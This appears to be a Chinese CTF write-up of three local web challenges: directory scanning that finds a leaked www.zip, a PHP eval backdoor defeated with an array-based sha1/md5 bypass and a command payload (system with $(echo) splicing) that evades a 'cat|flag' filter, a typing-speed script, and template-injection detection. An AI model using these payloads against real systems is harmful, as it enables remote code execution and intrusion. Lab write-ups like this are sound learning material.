 ```yaml
---
title: 'Week2 Web 网络攻防'
date: '2025-04-23T20:32:27+08:00'
weight: 
draft: false
description: 'Week2 Web 网络攻防'
---
```


## 遗失的拉链

**提示：Pangbai 的拉链找不到了 你可以帮他找到他的拉链吗**

根据提示拉链应该与 `zip` 有关，这里说拉链找不到了，可以使用 dirsearch 进行目录扫描查找与 `zip` 相关的内容

```shell
python dirsearch.py -u 127.0.0.1:3307
```

扫描结果：

```shell

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: C:\Users\puppy\Desktop\dirsearch-0.4.3\reports\_127.0.0.1_3307\_25-04-24_09-08-17.txt

Target: http://127.0.0.1:3307/

[09:08:18] Starting:
[09:08:24] 403 -  276B  - /.ht_wsr.txt
[09:08:24] 403 -  276B  - /.htaccess.save
[09:08:24] 403 -  276B  - /.htaccess.sample
[09:08:24] 403 -  276B  - /.htaccess.orig
[09:08:24] 403 -  276B  - /.htaccess.bak1
[09:08:24] 403 -  276B  - /.htaccess_extra
[09:08:24] 403 -  276B  - /.htaccessBAK
[09:08:24] 403 -  276B  - /.htaccess_orig
[09:08:24] 403 -  276B  - /.htaccess_sc
[09:08:24] 403 -  276B  - /.htaccessOLD2
[09:08:24] 403 -  276B  - /.htaccessOLD
[09:08:24] 403 -  276B  - /.html
[09:08:24] 403 -  276B  - /.htm
[09:08:24] 403 -  276B  - /.htpasswd_test
[09:08:24] 403 -  276B  - /.httr-oauth
[09:08:24] 403 -  276B  - /.htpasswds
[09:08:58] 200 -  861B  - /index.html
[09:09:17] 200 -    3KB - /server-status/
[09:09:17] 200 -    3KB - /server-status
[09:09:32] 200 -    1KB - /www.zip

Task Completed
```

访问 `127.0.0.1:3307/www.zip`，下载解压后得到 `pizwww.php`

```php
<?php
error_reporting(0);
//for fun
if(isset($_GET['new'])&&isset($_POST['star'])){
    if(sha1($_GET['new'])===md5($_POST['star'])&&$_GET['new']!==$_POST['star']){
        //欸 为啥sha1和md5相等呢
        $cmd = $_POST['cmd'];
        if (preg_match("/cat|flag/i", $cmd)) {
            die("u can not do this ");
        }
        echo eval($cmd);
    }else{
        echo "Wrong";

    } 
}
```

![pizwww](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/pizwww.8dx3cv51r2.webp)

使用 `GET` 方式传入 `new[]=1`，`POST` 方式传入 `star[]=2&cmd=system("ca$(echo t) /fla$(echo g)");`

![PixPin_2025-05-09_20-38-25](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_20-38-25.6pnq5j5elj.webp)

获得 `flag`：`flag{32cba65e-2c30-0a97-726c-fc7317e00cb3}`

## 你能在一秒内打出八句英文吗

使用 Python 的 request 模块模拟请求

```Python
import requests
from bs4 import BeautifulSoup

start_url = "http://127.0.0.1:3307/start"
submit_url = "http://127.0.0.1:3307/submit"

session = requests.Session()
start_response = session.get(start_url)

soup = BeautifulSoup(start_response.text, "lxml")
element = soup.find('p', {'id': 'text'})
text = element.get_text()

payload = {'user_input' : text}
response = session.post(submit_url, data=payload)

with open('response_text/你能在一秒钟打出八句英文吗.html', 'w', encoding='utf-8') as f:
    f.write(response.text)

print('Success')
```

## 复读机

输入 `{{1+1}}` 输出 `2`，判断存在模板注入

https://github.com/Puppy1599/picx-images-hosting/raw/master/Typora/networkSecurity/PixPin_2025-05-16_23-23-55.wis6ehwd3.webp

尝试使用焚靖绕过，获得 flag：`flag{b6773729-5580-cd57-458b-b05da97e978e}`

https://github.com/Puppy1599/picx-images-hosting/raw/master/Typora/networkSecurity/PixPin_2025-05-16_23-26-08.1vyvjkncih.webp

